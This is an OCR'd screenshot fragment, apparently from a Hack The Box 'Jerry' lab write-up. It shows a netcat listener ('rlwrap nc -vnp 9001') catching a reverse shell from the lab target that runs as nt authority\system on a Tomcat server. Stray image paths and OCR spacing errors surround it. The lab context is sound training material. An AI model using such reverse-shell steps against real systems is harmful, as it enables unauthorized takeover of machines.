 ![](Maszyny/Windows/Jerry/Pasted%20image%2020210815162951.png)

-(kali kali)-[m/htb/jerry]
rlwrap nc - vnp 9001
listening on [any] 9001
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
whoami
nt authority\system
C:\apache-tomcat-7.0.88>|

